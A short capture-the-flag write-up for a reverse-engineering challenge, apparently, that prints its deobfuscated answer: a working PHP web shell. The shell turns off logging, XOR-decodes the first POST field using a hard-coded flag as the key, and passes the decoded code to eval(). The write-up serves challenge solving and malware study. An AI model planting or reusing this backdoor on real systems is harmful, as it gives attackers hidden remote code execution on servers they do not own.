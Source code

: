 You'll have to deobfuscate the code line by line, it's more of a reverse challenge than a web one.

You'll end up with this code : 

```php
<?php

// Disable error output and execution time limits
ini_set("error_log", null);
ini_set("log_errors", 0);
ini_set("max_execution_time", 0);
set_time_limit(0);

// Set the authentication flag
$flag = "5p1n-th3-51lly-5tr1ng5";

// XOR function for encoding and decoding
function xorEncrypt($input, $key) {
    $output = "";
    $keyLength = strlen($key);
    for ($i = 0, $j = 0; $i < strlen($input); $i++, $j++) {
        if ($j == $keyLength) $j = 0; // Repeat the key if it's shorter than input
        $output .= chr(ord($input[$i]) ^ ord($key[$j]));
    }
    return $output;
}

// Decode function that uses the flag as a key for XOR
function doubleXorDecode($input, $key) {
    global $flag;
    return xorEncrypt(xorEncrypt($input, $flag), $key);
}

// Initialize input variables from $_POST
$encodedPayload = null;
$postKey = null;

if (empty($encodedPayload) && !empty($_POST)) {
    foreach ($_POST as $key => $value) {
        $encodedPayload = $value;
        $postKey = $key;
        break;
    }
}

// Decode and check the input
if ($encodedPayload) {
    $decodedInput = json_decode(doubleXorDecode(base64_decode($encodedPayload), $postKey), true);

    if (isset($decodedInput["ak"]) && $decodedInput["ak"] === $flag) {
        if ($decodedInput["a"] === "e") {
            eval($decodedInput["d"]);
        }
    }
}

exit();

?>
```
